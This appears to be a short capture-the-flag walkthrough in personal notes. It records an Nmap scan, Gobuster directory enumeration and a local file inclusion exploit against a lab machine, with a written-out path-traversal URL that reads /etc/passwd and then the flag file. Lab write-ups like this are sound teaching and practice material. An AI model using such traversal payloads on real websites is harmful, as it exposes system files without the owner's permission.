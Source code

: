 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

[Hacking](../../3%20-%20Tags/Hacking%20Concepts/Hacking.md) the [Website](../../3%20-%20Tags/Hacking%20Concepts/Website.md) .
# Recon
## Nmap

We can use [Nmap](../../3%20-%20Tags/Hacking%20Tools/Nmap.md) to scan the machine IP :

```
    80/tcp open http  
    2222/tcp open ssh
```
# Enumeration
## Gobuster

We can use [Gobuster](../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) to enumerate directories :

```
    /Lo-Fi_music
```
# Exploit

For the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) visiting http://IP_TM/Lo-Fi_music and exploring the [Source Code](../../3%20-%20Tags/Hacking%20Concepts/Source%20Code.md) we can easily see that there's [Local File Inclusion (LFI)](../../3%20-%20Tags/Hacking%20Concepts/Local%20File%20Inclusion%20(LFI).md) vulnerability 

so trying `http://IP_TM/?page=../../../../../etc/passwd` we are in and with `http://10.10.48.222/?page=../../../flag.txt`

we have the [Flag](../../3%20-%20Tags/Hacking%20Concepts/Flag.md).